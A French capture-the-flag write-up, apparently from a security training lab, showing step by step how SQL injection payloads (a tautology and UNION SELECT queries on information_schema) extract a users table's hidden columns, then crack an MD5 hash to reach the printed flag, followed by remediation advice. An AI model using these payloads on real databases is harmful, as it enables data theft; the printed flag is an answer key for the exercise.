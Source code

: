 
---

# Exploitation de vulnérabilité SQL pour obtenir un flag

## Description de la faille

Une vulnérabilité SQL Injection permet d'extraire des données sensibles de la base de données. En exploitant cette faille, nous avons pu découvrir une table d'intérêt, obtenir des informations sur ses colonnes, et finalement extraire et transformer des données pour obtenir le flag.

## Étapes pour découvrir la faille

### 1. Initialiser l'injection SQL pour vérifier la vulnérabilité

En essayant la condition toujours vraie `1 OR 1=1`, nous obtenons :

```sql
ID: 1 OR 1=1; --
First name: Flag
Surname : GetThe
```

### 2. Lister toutes les tables de la base de données

En utilisant une requête UNION pour lister les tables, nous trouvons :

```sql
ID: 1 AND 1=1 UNION SELECT 1, table_name FROM information_schema.tables; --
First name: 1
Surname : users
```

La table `users` semble intéressante, nous allons nous concentrer dessus.

### 3. Lister toutes les colonnes de la table `users`

Nous listons les colonnes de la table `users` avec les requêtes suivantes :

```sql
ID: 1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'users'; --
```

Les colonnes découvertes sont :

- `user_id`
- `first_name`
- `last_name`
- `town`
- `country`
- `planet`
- `Commentaire`
- `countersign`

### 4. Extraire les données des colonnes intéressantes

Nous allons essayer de voir ce qu'il y a dans chacune de ces colonnes. Après avoir vérifié plusieurs champs, nous trouvons des informations intéressantes dans les colonnes `Commentaire` et `countersign` :

```sql
ID: 1 AND 1=1 UNION SELECT Commentaire, countersign FROM users; --
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

### 5. Décrypter et transformer les données pour obtenir le flag

1. **Décrypter le mot de passe** :
   - `5ff9d0165b4f92b14994e5c685cdce28` correspond à `Fortytwo` en MD5.

2. **Convertir en minuscules** :
   - `Fortytwo` devient `fortytwo`.

3. **Calculer le hash SHA-256** :
   - `fortytwo` en SHA-256 donne `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`.

### Conclusion

En suivant ces étapes, nous avons pu exploiter une vulnérabilité SQL Injection pour extraire des données sensibles et finalement obtenir le flag.

## Flag

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

### Recommandations pour remédier à la vulnérabilité SQL Injection

1. **Utilisation de Requêtes Paramétrées (Préparées)**
   - **Description** : Les requêtes paramétrées permettent de séparer le code SQL des données utilisateur. Cela empêche les données utilisateur d'être interprétées comme des parties de la commande SQL.
   - **Pratique** : Configurez votre base de données et votre langage de programmation pour utiliser des requêtes préparées avec des paramètres. Cela garantit que les entrées utilisateur sont traitées uniquement comme des données, et non comme du code SQL.

2. **Utilisation des ORM (Object-Relational Mapping)**
   - **Description** : Les ORM sont des outils qui permettent de manipuler la base de données en utilisant des objets du langage de programmation plutôt que des commandes SQL directes.
   - **Pratique** : Utilisez un ORM pour gérer les interactions avec la base de données. Les ORM incluent des mécanismes pour échapper automatiquement les entrées utilisateur, réduisant ainsi le risque d'injection SQL.

3. **Validation et Échappement des Entrées Utilisateur**
   - **Description** : La validation des entrées consiste à vérifier que les données saisies par l'utilisateur sont conformes aux attentes (format, longueur, type, etc.). L'échappement consiste à transformer les caractères spéciaux en leur équivalent sécurisé.
   - **Pratique** : Mettez en place des validations rigoureuses pour toutes les entrées utilisateur à différents niveaux de votre application (frontend et backend). Utilisez des bibliothèques d'échappement adaptées à votre langage de programmation pour sécuriser les données avant de les utiliser dans des requêtes SQL.

4. **Limiter les Privilèges de la Base de Données**
   - **Description** : Restreindre les privilèges des comptes de base de données utilisés par l'application pour limiter l'impact potentiel d'une injection SQL.
   - **Pratique** : Configurez votre base de données pour que les comptes utilisés par l'application n'aient que les privilèges nécessaires (par exemple, l'accès en lecture seule pour les opérations de lecture). Utilisez des comptes distincts pour différentes parties de l'application avec des privilèges minimaux.

5. **Utilisation des Outils de Détection et de Prévention des Intrusions (IDS/IPS)**
   - **Description** : Les IDS/IPS sont des systèmes qui surveillent le trafic réseau et les activités de l'application pour détecter et prévenir les tentatives d'attaque.
   - **Pratique** : Implémentez des solutions IDS/IPS pour surveiller les requêtes SQL et détecter les modèles de comportement suspects ou les tentatives d'injection. Configurez des alertes pour être informé immédiatement en cas de détection d'une activité anormale.

6. **Tests de Sécurité et Audits Réguliers**
   - **Description** : Les tests de sécurité consistent à analyser et tester régulièrement votre application pour identifier et corriger les failles potentielles.
   - **Pratique** : Planifiez des audits de sécurité réguliers et des tests d'intrusion pour évaluer la robustesse de votre application contre les injections SQL et autres types de vulnérabilités. Utilisez des outils d'analyse statique et dynamique pour détecter les failles de sécurité dans votre code.

7. **Utilisation de Captchas**
   - **Description** : Les captchas permettent de différencier les utilisateurs humains des scripts automatisés, ce qui peut réduire le risque d'attaques automatisées.
   - **Pratique** : Intégrez des captchas dans les formulaires de votre application, en particulier ceux qui déclenchent des opérations critiques comme la connexion ou les modifications de compte.

8. **Formation et Sensibilisation des Développeurs**
   - **Description** : La sensibilisation des développeurs aux meilleures pratiques de sécurité est essentielle pour prévenir les vulnérabilités.
   - **Pratique** : Organisez des sessions de formation régulières pour les développeurs sur les meilleures pratiques de sécurité, les techniques d'évitement des injections SQL et l'utilisation correcte des outils et des bibliothèques de sécurité.

---
